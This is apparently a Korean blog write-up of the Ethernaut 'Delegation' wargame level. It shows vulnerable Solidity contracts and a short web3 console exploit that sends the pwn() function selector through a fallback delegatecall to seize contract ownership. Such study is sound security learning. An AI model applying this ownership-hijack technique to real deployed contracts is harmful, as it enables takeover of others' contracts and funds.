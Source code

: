 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 6) Delegation
date: '2022-01-09 00:43:00'
author: 한성원
tags: ethernaut Token vulnerability
categories: 취약점분석
---
```



# 👋 1. Delegation
__Difficulty 4/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- instance의 ownership을 가져오면 승리한다.

- - -

## 코드 분석
분석은 주석에!

```solidity

contract Delegate {
    // owner의 contract
    address public owner;
    
    // constructor: set parameter _owner as owner of contract
    constructor(address _owner) public {
        owner = _owner;
    }
    
    //set msg.sender as owner
    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    // owner of contract
    address public owner;
    // Delegate contract
    Delegate delegate;
    
    //constructor with parameter delegate contract address
    constructor(address _delegateAddress) public {
        // set delegate as Delegate contract address
        delegate = Delegate(_delegateAddress);
        // set owner as deployer
        owner = msg.sender;
    }

    //fallback function
    fallback() external {
        //delegate에 delegatecall을 보낸다. 
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```
- - -

## 풀이
이 문제에서 우리의 목표는 ownership을 가져오는 것이다.

만약 우리가 가지고 있다면 우선 여기서 말해주는 힌트를 보자!
1. delegatecall
2. Fallback function
3. method id
를 알면 도움이 될 것이라고 말한다. 

### Delegate Call
delegate call은 일전에 내가 취약점 시리즈에서 다룬 적 있다! solidity official docs와 내 글을 보면 이해가 될 것이다.
[DelegateCall](https://holyhansss.github.io/vulnerability/delegate_call/delegate_call/) <= Click
[Solidity Docs](https://docs.soliditylang.org/en/v0.8.10/introduction-to-smart-contracts.html) <= Click

### fallback 
Fallback 함수는 contract에서 함수를 실행시킬때 함수가 존재하지 않는다면 실행되는 function이다.

### method id
This is derived as the first 4 bytes of the Keccak hash of the ASCII form of the signature
즉 4 byte의 Keccak hash라고 생각하면 된다.

우리가 owner를 가져오기 위한 시나리오는 이렇다.
1. pwn()를 4 byte의 keccak hash로 하나의 변수에 저장한다.
2. Delegation contract에 1번에서 만든 변수를 data로 지정하고 transaction을 보낸다.
3. Delegation contract의 owner를 확인해본다.

모든 코드는 console창에서 이루어진다. 
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
// 기존의 owner를 확인한다.
await contract.owner()

// web3 library를 사용한다.
// encodePwn라는 변수에 pwn()을 4 byte keccak hash로 변형해 저장한다.
const encodePwn = web3.eth.abi.encodeFunctionSignature("pwn()")

// Delegation contract의  fallback function을 call한다. 
await contract.sendTransaction({data: encodePwn})

// owner가 자신인 것을 확인한다.
await contract.owner()
```

완료 후 ethernaut으로 돌아와 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -

## 마무리
delegatecall 은 low level function이라 아직 내가 완벽하게 이해했다고 말할 수는 없을 것 같다. ethernaut을 다 풀어본 후에 EVM에 대해 좀 더 깊히 배워야겠다는 생각이 든다. 왜냐면 나는 그냥 smart contract 개발자가 아닌 auditor가 되고싶기 때문이다!!!! 앞으로도 화이팅하자!


- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- DelegateCall 취약점 :https://holyhansss.github.io/vulnerability/delegate_call/delegate_call/
- Solidity Docs delegate call: https://docs.soliditylang.org/en/v0.8.10/introduction-to-smart-contracts.html

```toc

```